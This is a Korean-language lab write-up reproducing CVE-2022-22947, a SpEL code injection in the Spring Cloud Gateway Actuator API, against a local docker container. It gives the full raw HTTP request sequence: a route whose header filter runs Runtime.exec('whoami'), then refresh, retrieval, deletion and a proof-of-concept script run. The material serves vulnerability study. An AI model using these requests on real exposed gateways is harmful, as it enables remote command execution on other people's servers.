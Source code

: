 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

**Contributors**

-   [박천웅(@CheonWoong-Park)](https://github.com/CheonWoong-Park)

Spring Cloud Gateway는 Spring WebFlux 위에 API Gateway를 구축하기 위한 라이브러리입니다.

3.1.0 및 3.0.6 이전 버전의 Spring Cloud Gateway를 사용하는 애플리케이션은 Gateway Actuator EndPoint를 사용하도록 설정되고 노출되며 보안이 해제된 경우 취약점이 발생합니다. 
원격 공격자는 악의적으로 조작된 요청을 수행하여 원격 호스트에서 임의의 원격 실행을 허용할 수 있습니다.

참고자료:

- <https://y4er.com/posts/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/>
- <https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.md#spring-cloud-gateway-actuator-api-spel-code-injection-cve-2022-22947>

## 취약점 환경

먼저, Spring Cloud Gateway 3.1.0을 사용하는 서버를 구축 해야합니다.
아래 내용은 WSL2(Ubuntu)환경에서 실습하였습니다.

docker-compose.yml을 기반으로 도커 컨테이너를 구축합니다.

```
docker-compose up -d
```

서버가 시작되면, http://localhost:8080/ 으로 서버가 돌아갑니다.

## 취약점 실습

작성자는 포스트맨을 이용하였습니다.

1) spring cloud의 Andpoint 취약점을 공격하기 위해 라우터를 추가하는 SpEL식을 리퀘스트합니다.

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

2) SpEL 표현식이 작성된 라우터가 서버에 추가 된 후, 게이트웨이를 새로고침 합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

3) 결과를 받아 오도록 GET메소드 리퀘스트를 보냅니다.

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

4) 그 후, 공격 라우터를 삭제합니다.

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)

5) 다시 게이트웨이를 새로고침합니다.

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

## POC 작성

파이썬을 이용하여 위 단계들을 한번에 이룰 수 있도록 코드를 작성하였습니다.

[poc.py](https://github.com/CheonWoong-Park/whitehat-school-vulhub/blob/main/spring%20/CVE-2022-22947/poc.py) 참고

## POC 출력 결과 
```
python3 poc.py http://localhost:8080
```

![](5.png)
